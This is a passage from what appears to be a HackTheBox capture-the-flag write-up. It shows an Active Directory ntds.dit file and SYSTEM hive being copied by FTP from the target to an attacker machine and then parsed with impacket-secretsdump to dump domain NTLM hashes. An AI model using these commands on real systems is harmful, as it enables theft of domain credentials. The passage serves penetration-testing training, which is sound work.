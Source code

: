 
One of the files here has a `.dit` extension. The `dit` acronym stands for `Directory Information Tree`, and this type of file is used in Active Directory to store the hierarchy of the domain including information about user objects, groups and group membership, as well as password hashes for all users in the domain.


The file has the string `psexec.ntdsgrab` in it, which is actually a metasploit module used to extract the `ntds.dit` file along with the SYSTEM hive file and store them locally, the `.bin` is actually the SYSTEM hive file. These two files can be used by certain tools to parse out the password hashes of the domain users. 


Let's try to do that! 


First, we need to transfer both files to our attack machine. To do that, I start an FTP server on my Kali machine using:

```bash
python -m pyftpdlib -w
```

Then I connect to this FTP server from the target and copy the files over:

```bash
ftp 10.10.14.44 2121
ftp> anonymous
ftp> anonymous
ftp> put 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
ftp> put 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
ftp> bye
```


The file upload takes a bit of time but I wait patiently. After a couple of minutes I have both files on my Kali:

![hive-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/hive-31.png)


Now we can dump out the NTLM hashes using `secretsdump` from Impacket:

```bash
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system
 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -hashes lmhash:nthash LOCAL -outputfi
le ntlm_hashes
```
